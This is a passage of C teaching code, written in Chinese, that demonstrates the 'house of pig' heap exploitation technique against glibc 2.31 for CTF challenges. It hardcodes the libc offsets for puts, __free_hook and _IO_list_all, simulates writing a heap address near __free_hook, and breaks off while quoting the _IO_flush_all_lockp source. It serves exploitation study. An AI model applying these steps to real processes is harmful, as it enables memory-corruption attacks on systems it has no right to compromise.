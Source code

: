 ```c
    }
    strcat(buffer, color);
    strcat(buffer, "m");
    strcat(buffer, string);
    printf("%s" STR_END, buffer);
}

int main(){
    printf_color(GREEN, UNDEFINED, "今天我们来学习一下house of pig的利用原理。\n");
    printf_color(GREEN, UNDEFINED, "house of pig在只能使用calloc进行内存分配的CTF赛题中也有用武之地。\n");
    printf_color(GREEN, UNDEFINED, "首先我们了解一下这种利用方式的基本原理。\n");
    printf_color(GREEN, UNDEFINED, "本程序运行于ubuntu 20.04, glibc版本为2.31-0ubuntu9.9。\n");
    printf_color(GREEN, UNDEFINED, "在glibc 2.31下，house of pig需要利用__free__hook。\n\n");
    printf_color(RED, HIGHLIGHT, "第一步：获取libc的加载地址及堆地址。\n");
    printf_color(GREEN, UNDEFINED, "通过puts函数获取libc加载地址，在本libc中其偏移为0x84420。\n");

    size_t puts_addr = (size_t)puts;
    size_t libc_base = puts_addr - 0x84420;
    printf_color(YELLOW, HIGHLIGHT, "libc的加载地址为：");
    printf("\033[" HIGHLIGHT ";" YELLOW "m%#zx\n" STR_END, libc_base);

    printf_color(GREEN, UNDEFINED, "然后我们通过分配一个chunk（大小为0x500）来获得一个堆地址。\n");
    size_t chunk_1 = (size_t) malloc(0x4F0) - 0x10;
    printf_color(YELLOW, HIGHLIGHT, "获得堆地址为这个chunk的起始地址：");
    printf("\033[" HIGHLIGHT ";" YELLOW "m%#zx\n\n" STR_END, chunk_1);

    printf_color(RED, HIGHLIGHT, "第二步：通过large bin attack或其他方法将__free_hook附近写上一个堆地址。\n");
    printf_color(GREEN, UNDEFINED, "为了方便起见，本程序直接对__free_hook附近地址进行修改。\n");
    printf_color(GREEN, UNDEFINED, "在实际应用中，我们要维护好这个堆地址，在后面的步骤中还会用到。\n");
    printf_color(PURPLE, HIGHLIGHT, "这里在__free_hook-0x10处写入刚才获得的堆地址。\n");

    printf_color(GREEN, UNDEFINED, "本libc中__free_hook的偏移为0x1EEE48。\n");

    size_t __free_hook = libc_base + 0x1EEE48;
    printf_color(YELLOW, HIGHLIGHT, "__free_hook的地址为：");
    printf("\033[" HIGHLIGHT ";" YELLOW "m%#zx\n" STR_END, __free_hook);

    size_t* vuln_1 = (size_t*)(__free_hook - 0x8);
    // ---------- 第一处漏洞利用 ---------- //
    *vuln_1 = chunk_1;
    // --------------------------------- //

    printf_color(BLUE, HIGHLIGHT, "第一处漏洞利用完成，已在__free_hook-0x10处写入堆地址。\n\n");

    printf_color(RED, HIGHLIGHT, "第三步：通过large bin attack或其他方法向_IO_list_all写入一个堆地址。\n");
    printf_color(GREEN, UNDEFINED, "本libc中__free_hook的偏移为0x1ED5A0。\n");

    size_t* _IO_list_all = (size_t*)(libc_base + 0x1ED5A0);

    printf_color(GREEN, UNDEFINED, "_IO_list_all中原本保存的应该是_IO_2_1_stderr_这个文件结构体实例。\n");
    printf_color(GREEN, UNDEFINED, "在程序调用exit函数时会对_IO_list_all中的FILE结构体依次进行遍历。\n");
    printf_color(GREEN, UNDEFINED, "exit函数的调用链为：exit->_IO_cleanup->_IO_flush_all_lockp。\n");
    printf_color(GREEN, UNDEFINED, "下面是_IO_flush_all_lockp的函数定义：\n\n");
    printf_color(BLUE, HIGHLIGHT, "(/libio/genops.c， line 684)\n");
    printf_color(PURPLE, HIGHLIGHT,
                 "int\n"
                 "_IO_flush_all_lockp (int do_lock)\n"
                 "{\n"
                 "  int result = 0;\n"
                 "  FILE *fp;\n"
                 "\n"
                 "#ifdef _IO_MTSAFE_IO\n"
                 "  _IO_cleanup_region_start_noarg (flush_cleanup);\n"
```